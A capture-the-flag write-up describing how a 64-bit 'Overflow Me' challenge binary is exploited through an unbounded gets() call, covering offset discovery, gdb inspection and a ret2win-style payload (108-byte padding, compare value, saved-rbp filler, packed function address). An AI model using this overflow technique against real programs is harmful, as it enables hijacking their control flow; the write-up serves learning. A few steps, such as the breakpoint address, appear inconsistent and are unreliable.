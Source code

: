 # Writeups for Overflow Me
- We need to find the flag in format of TamilCTF{flag}. The Overflow_Me is in the same directory
## Analysis the Overflow Me
- Get some basic information from the overflow me binary, by using some commands.
  > file Overflow_me
![Alt Text](img/file.png)<br />It is 64 bit, x86-64 and not stripped binary.
  > strings Overflow_Me
![Alt Text](img/strings.png)<br />Nothing interesting like **flag**.
- Run the overflow me binary
  > ./Overflow_me
![Alt Text](img/output_bin.png)<br />Enter something , I entered **TamilCTF2021**,the output is **Addr is 0x00000000**.

## Run the Overflow Me binary on BinaryNinja
- Open the overflow me binary in [BinaryNinja](https://binary.ninja/demo/)
  > /opt/binaryninja/binaryninja Overflow_Me
![Alt Text](img/open_binary.png)<br />
  - Examine the main function
    - The main function call the **banner** function. Actually the banner function print the some strings. Then get a user input by using gets function **( Gets is dangerous function,there is no limits for the user input, So we overflow the return address )**. ![Alt Text](img/main.png)<br />But there is one cmp instruction ,it compare the eax **( the eax is 0)** with 0x33313337 **( It is hexa of 7313 )**.If compare statement is false ,it will **exit** the program by print the **Addr of eax**.  
    
## Find the offset of eax
  - Create a unique pattern
    > pattern create 150![Alt Text](img/pattern.png)<br />

  - Run the binary with that pattern
    > ./Overflow_Me![Alt Text](img/find_pattern.png)<br />

  - Finally find the offset
    > pattern offset 0x41366441 150![Alt Text](img/offset.png)<br />The offset is **108**.

## Load the Overflow Me on **GDB**    
  - Open the overflow_me on gdb
    > gdb ./Overflow_me -q
  - List the functions
    > info function<br />![Alt Text](img/functions.png)<br />There are three function. vuln,banner and main functions
  - Disassembly the main function and set a breakpoint at leave statement
    > disass main![Alt Text](img/leave.png)<br />
    > b *0x41366441![Alt Text](img/break_lev.png)<br />
  - Run the binary
    - run the binary with 108 byte of A ,comparsion value is 7313 and 8 byte of B and C .
      > run < "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7313BBBBBBBBCCCCCCCC"
    - Hey, Now the breakpoint is hit.
    - List the value in rbp.
      > x/20wx $rbp![Alt Text](img/rbp.png)<br />
      - The value of 42 **(B)** is stored in rbp adn 43 **(C)** is stored in return address.

## Make a Exploit
  - We need overwrite the vuln function address on return address
  - find the vuln function address
    > objdump -t Overflow_Me | grep vuln![Alt Text](img/vuln.png)<br />
  - Exploit file
    ![Alt Text](img/exploit.png)
    - "A"*108 is stored in padding.
    - "7313" is stored in cmp.
    - "B"*8 is stored in rbp, it is base address in program.
    - struct.pack("Q",0x00000000004011b1) will unpacked vuln function address and stored in ret, it will overwrite the return address in program.
    - Finally this payload is stored in exp file.

## Run the Overflow with exp file
  - run the binary with exp file
    > ./Overflow_Me < exp ![Alt Text](img/pip_exp.png)<br />
    - Hey ,Finally we got the flag :smiley:![Alt Text](img/flag.png)<br />
